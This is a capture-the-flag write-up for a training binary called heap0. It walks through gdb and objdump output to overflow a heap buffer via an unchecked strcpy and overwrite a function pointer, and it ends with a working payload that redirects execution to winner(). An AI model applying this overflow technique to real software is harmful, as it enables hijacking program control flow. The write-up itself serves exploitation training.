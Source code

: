 <h2>Goal</h2>

After examining the source code for this challenge, and executing it, the goal is to call the `winner()` function instead of the `nowinner()` function.  

```c
d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  printf("data is at %p, fp is at %p\n", d, f);

  strcpy(d->name, argv[1]);
  
  f->fp();
```
`f->fp()` is set to `nowinner`.  So we must find where in memory the call after `strcpy` occurs.  Lucky for us the value of `fp` is printed out for us, making this task a bit easier.

<h2>Process</h2>

First, I executed heap0 and passed it a valid parameter to verify I understood it properly.

```bash
./heap0 AA
data is at 0x804a008, fp is at 0x804a050
level has not been passed
```

Next, using `objdump` find the value of `winner()`.

```bash
objdump -d heap0 | grep winner
08048464 <winner>:
08048478 <nowinner>:
```

Now to gdb. I disassembled the main function to locate `strcpy` and set a breakpoint after it.

```bash
disas main
......
0x080484f2 <main+102>:	call   0x8048368 <strcpy@plt>
0x080484f7 <main+107>:	mov    eax,DWORD PTR [esp+0x1c]
0x080484fb <main+111>:	mov    eax,DWORD PTR [eax]
......
```
main+107 or main+111 should both be OK to choose as a break point. I set `break *main+111`, then created a payload with 100 bytes to be sure to overflow the 64char buffer of data struct `d`. Then I dumped 100 bytes from the location of `data` as printed by the printf statement. 
`data is at 0x804a008, fp is at 0x804a050`

```bash
x/100x 0x804a008
0x804a008:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a018:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a028:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a038:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a048:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a058:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a068:	0x41414141	0x00000000	0x00000000	0x00000000
```
Looking at the addresses on the left, we can see that the `fp` address was also overwritten. `fp` is at `0x0804a050` and we wrote all the way to `0x804a068`. Looks like we overwrote by 7 addresses, 7addr x 4 bytes = 28.  Let's remove 28 A's.

```bash
r  `python -c 'print "A"*72'`
x/100x 0x804a008
0x804a008:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a018:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a028:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a038:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a048:	0x41414141	0x41414141	0x08048400	0x00000000
```
Ok, `0x804a050` is not overwritten, let's overwrite it with the `winner()` address. I ran this in gdb just incase it didn't work so.  Recall `08048464 <winner>`.  

Final payload: `"A"*72+"\x64\x84\x04\x08"`


<h2>Solution</h2>

Finally:
```bash
./heap0 `python -c 'print "A"*72+"\x64\x84\x04\x08"'`
data is at 0x804a008, fp is at 0x804a050
level passed
```
